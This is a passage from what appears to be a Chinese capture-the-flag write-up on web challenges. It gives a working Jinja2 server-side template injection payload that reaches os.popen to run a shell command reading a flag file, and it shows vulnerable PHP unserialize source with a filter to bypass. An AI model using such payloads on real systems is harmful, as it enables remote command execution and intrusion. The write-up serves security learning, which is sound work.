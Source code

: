 BP抓到 Server：Werkzeug/0.15.5 Python/2.7.16

![](https://img-blog.csdnimg.cn/20210307172854129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
告诉我们是python的ssti

测试：

![](https://img-blog.csdnimg.cn/2021030717291645.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
查看基类，调用os 无过滤直接
paload：
```
 {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat fl4g').read()}}
```


![](https://img-blog.csdnimg.cn/20210307172944638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## Web_php_unserialize
- 考点：反序列化

```bash
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>

```
这里有个坑：直接复制与结果不一样，可能是 □ 的问题
